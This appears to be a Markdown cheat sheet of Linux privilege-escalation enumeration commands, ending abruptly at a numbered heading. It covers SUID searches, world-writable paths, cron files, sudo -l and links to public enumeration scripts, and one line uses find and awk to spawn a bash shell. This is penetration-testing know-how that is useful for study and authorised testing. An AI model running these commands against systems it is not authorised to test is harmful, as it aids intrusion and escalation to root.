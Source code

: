 #### Check kernel version
- uname -a
- cat /proc/version
- cat /etc/issue

#### Check common location for user installed software
- /usr/local/
- /usr/local/src
- /usr/local/bin
- /opt/
- /home
- /var/
- /usr/src/

#### Available services
- netstat -anlp
- netstat -ano

#### Unmounted filesystem
- mount -l
- cat /etc/fstab

#### Access to more binaries
- export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

#### Searching SUID file (SUID file is a special type of file permission given to a file
- find / -perm -u=s -type f 2>/dev/null
- find / -perm -4000 -type f 2>/dev/null
- find / -uid 0 -perm -4000 -type f 2>/dev/null
- find / -type f -perm -g+s -exec ls -ald {} \; 2>/dev/null

#### Find world-writeable files excluding proc file
find / ! -path "*/proc/*" -perm -2 -type f -print 2>/dev/null

#### Find other users process
ps -aux | grep root

#### Find 
find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' ;

#### Find world writable files
find / -writable -type d 2>/dev/null
find / -perm -222 -type d 2>/dev/null
find / -perm -o w -type d 2>/dev/null
##### Find world writable folder
find / -perm -o x -type d 2>/dev/null
##### Find world writable and executable folders
find / \( -perm -o w -perm -o x \) -type d 2>/dev/null

#### Execute file as root
sudo -l

#### World writable directories
/tmp
/var/tmp
/dev/shm
/var/spool/vbox
/var/spool/samba

#### Cronjobs
- crontab -l
- ls -alh /var/spool/cron
- ls -al /etc/ | grep cron
- ls -al /etc/cron*
- cat /etc/cron*
- cat /etc/at.allow
- cat /etc/at.deny
- cat /etc/cron.allow
- cat /etc/cron.deny
- cat /etc/crontab
- cat /etc/anacrontab
- cat /var/spool/cron/crontabs/root

#### Run usefull script for linux enumeration
- ***Linenum***: https://github.com/rebootuser/LinEnum
- ***Linuxprivchecker***: https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py
- ***LinuxExploitSuggester***: https://github.com/mzet-/linux-exploit-suggester
- ***LinuxExploitSuggester2***: https://github.com/jondonas/linux-exploit-suggester-2
- ***LinuxPrivChecker***: https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py
- ***LinuxSmartEnumeration***: https://github.com/diego-treitos/linux-smart-enumeration

#### 6) Enumerate /var directory and uncommon files and directory names

